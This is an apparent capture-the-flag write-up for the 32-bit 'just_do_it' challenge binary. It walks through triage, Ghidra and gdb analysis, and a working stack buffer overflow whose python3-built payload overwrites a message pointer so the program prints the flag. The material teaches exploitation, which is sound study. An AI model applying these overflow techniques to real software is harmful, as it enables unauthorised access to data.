

# just_do_it writeup

## Triage

- Running some basic info gathering tools...

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ file just_do_it
just_do_it: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ readelf -h just_do_it
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x80484c0
  Start of program headers:          52 (bytes into file)
  Start of section headers:          6552 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         9
  Size of section headers:           40 (bytes)
  Number of section headers:         31
  Section header string table index: 28
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ checksec just_do_it
[*] '/home/noobuntu/nightmare/bof/justdoit/just_do_it'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- Running the binary:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
password
Invalid Password, Try Again!
```

- Okay let's search for some strings:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ strings ./just_do_it -d
-- snip --
Correct Password, Welcome!
Invalid Password, Try Again!
P@SSW0RD
flag.txt
file open error.
file read error.
Welcome my secret service. Do you know the password?
Input the password.
```

- Let's try `P@SSW0RD` as the input:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
P@SSW0RD
Invalid Password, Try Again!
```

- Not gonna be that easy, alright let's see output of `ltrace`:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ ltrace ./just_do_it > /dev/null
__libc_start_main(0x80485bb, 1, 0xffcf5cb4, 0x8048710 <unfinished ...>
setvbuf(0xf542a620, 0, 2, 0)                                                                  = 0
setvbuf(0xf542ada0, 0, 2, 0)                                                                  = 0
setvbuf(0xf542ad00, 0, 2, 0)                                                                  = 0
fopen("flag.txt", "r")                                                                        = 0x96371a0
fgets("TWCTF{pwnable_warmup_I_did_it!}\n"..., 48, 0x96371a0)                                  = 0x804a080
puts("Welcome my secret service. Do yo"...)                                                   = 53
puts("Input the password.")                                                                   = 20
fgets(P@SSW0RD
"P@SSW0RD\n", 32, 0xf542a620)                                                           = 0xffcf5bc8
strcmp("P@SSW0RD\n", "P@SSW0RD")                                                              = 1
puts("Invalid Password, Try Again!")                                                          = 29
+++ exited (status 0) +++
```

- Notice it just found the flag, however ending the challenge here would be a pity.
- It compares our input with `"P@SSW0RD"`, but without newline character.
- That's easily done with:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ echo -ne "P@SSW0RD" | ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

- However, that was pointless as I got nothing from it anyway.


## Static analysis with ghidra

- This is decompiled `main` function from ghidra:



- So, `input_buffer` is 16 bytes long. Let's try to crash the program:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

- Nice, let's now try to make this buffer overflow useful.
- Because `string_message` is what gets printed with `puts` at the end, and it's also defined below our buffer, we can overflow this to get it to print the flag.
- Notice the line 23 in decompiled main.
- This variable holds our flag, and if I can get the address of it, and overwrite the `string_message` with that address, i get the flag printed out!


## Dynamic analysis

```sh
gef➤  x/s 0x804a080
0x804a080 <flag>:       ""
```

- This is the address of our flag variable which should hold the contents of a flag.
- After stepping some instructions and running the same `gdb` command, I see that the flag variable gets populated with the flag:

```sh
gef➤  x/s 0x804a080
0x804a080 <flag>:       "TWCTF{pwnable_warmup_I_did_it!}\n"
```

- Good, it's address is `0x804a080`.
- We need to find the address of `string_message` in gdb.
- That's easy because I know that the `string_message` gets printed with `puts` at the end.

```asm
   0x080486f4 <+313>:   push   DWORD PTR [ebp-0xc]
   0x080486f7 <+316>:   call   0x8048460 <puts@plt>
```

- Let's specify some input in gdb and see what's in `string_message` at the end of the function:

```sh
gef➤  c
Continuing.
Welcome my secret service. Do you know the password?
Input the password.
AAAAAAAAAAAAAAAAAAAAABCD

Breakpoint 2, 0x080486f7 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffffff
$ebx   : 0xf7e2a000  →  0x00229dac
$ecx   : 0x50
$edx   : 0xffffcf48  →  "AAAAAAAAAAAAAAAAAAAAABCD\n"
$esp   : 0xffffcf30  →  0x44434241 ("ABCD"?)
$ebp   : 0xffffcf68  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffd034  →  0xffffd22c  →  "/home/noobuntu/nightmare/bof/justdoit/just_do_it"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x080486f7  →  <main+013c> call 0x8048460 <puts@plt>
$eflags: [zero carry parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf30│+0x0000: 0x44434241   ← $esp
0xffffcf34│+0x0004: 0x080487c8  →  "P@SSW0RD"
0xffffcf38│+0x0008: 0xf7e2a620  →  0xfbad208b
0xffffcf3c│+0x000c: 0x00000000
0xffffcf40│+0x0010: 0xf7fbe4a0  →  0xf7c00000  →  0x464c457f
0xffffcf44│+0x0014: 0xf7fd6f90  →   mov edi, eax
0xffffcf48│+0x0018: "AAAAAAAAAAAAAAAAAAAAABCD\n"
0xffffcf4c│+0x001c: "AAAAAAAAAAAAAAAAABCD\n"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80486ee <main+0133>      mov    DWORD PTR [ebp-0xc], eax
    0x80486f1 <main+0136>      sub    esp, 0xc
    0x80486f4 <main+0139>      push   DWORD PTR [ebp-0xc]
 →  0x80486f7 <main+013c>      call   0x8048460 <puts@plt>
   ↳   0x8048460 <puts@plt+0000>  jmp    DWORD PTR ds:0x804a018
       0x8048466 <puts@plt+0006>  push   0x18
       0x804846b <puts@plt+000b>  jmp    0x8048420
       0x8048470 <exit@plt+0000>  jmp    DWORD PTR ds:0x804a01c
       0x8048476 <exit@plt+0006>  push   0x20
       0x804847b <exit@plt+000b>  jmp    0x8048420
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
puts@plt (
   [sp + 0x0] = 0x44434241,
   [sp + 0x4] = 0x080487c8 → "P@SSW0RD",
   [sp + 0x8] = 0xf7e2a620 → 0xfbad208b
)
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "just_do_it", stopped 0x80486f7 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80486f7 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/s $ebp-0xc
0xffffcf5c:     "ABCD\n"
```

- Here's how I'm crafting my input and getting the flag:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ python3 -c "import sys; sys.stdout.buffer.write(b'\x41'*20)" > input.txt
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ hexdump input.txt
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141
0000014
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ python3 -c "import sys; sys.stdout.buffer.write(b'\x80\xa0\x04\x08')" >> input.txt
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ hexdump input.txt
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 a080 0804
0000018
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ cat input.txt | ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}
```

- There are of course, a lot of simpler ways to solve this challenge.
- I've wrote `exploit.py` to automate this process using pwntools.
- Some other techniques for slinging raw bytes into the binary without using the pwntools are described here [justdoit_writeup](../pwn1/pwn1.md)
